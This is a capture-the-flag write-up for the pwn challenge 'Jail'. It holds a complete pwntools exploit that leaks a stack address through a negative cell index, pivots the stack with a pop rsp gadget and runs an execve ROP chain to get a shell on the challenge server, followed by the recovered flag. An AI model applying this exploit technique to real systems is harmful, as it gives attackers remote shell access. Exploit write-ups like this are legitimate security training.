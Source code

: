 https://ctftime.org/event/2708

# Jail (pwn)

I want to become a dentist! A DENTIST?!

nc 20.84.72.194 5001

## Solution

1) Leak address of the stack
2) Stack pivot via pop rsp gadget

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./prison", checksec=False)
context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]

#p = elf.process()
#p = elf.debug(gdbscript="b *0x00401ad3")
p = remote("20.84.72.194", 5001)

p.sendlineafter(b"choose your cell (1-6): ", str(-1).encode())

p.readuntil(b"cellmate is ")
leak = u64(p.readline()[:-1].ljust(8, b"\x00"))
buf = leak - 0x50

rop = ROP(elf)
rop.rdi = buf + 0x40
rop.rsi = 0
rop.rax = constants.SYS_execve
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
payload = rop.chain()

POP_RSP = 0x00000000004450f8 #: pop rsp ; ret
rop = ROP(elf)
rop.raw(payload.ljust(0x40, b"A"))
rop.raw(b"/bin/sh\x00")
rop.raw(p64(POP_RSP))
rop.raw(p64(buf))

p.sendlineafter(b"What is your name: ", rop.chain())

p.sendline(b"/bin/cat flag.txt")

p.readuntil(b"squ1rrel{")
print("squ1rrel{" + p.readuntil(b"}").decode()) # squ1rrel{m4n_0n_th3_rUn_fr0m_NX_pr1s0n!}
```

## Flag
`squ1rrel{m4n_0n_th3_rUn_fr0m_NX_pr1s0n!}`

smiley 2025/04/05
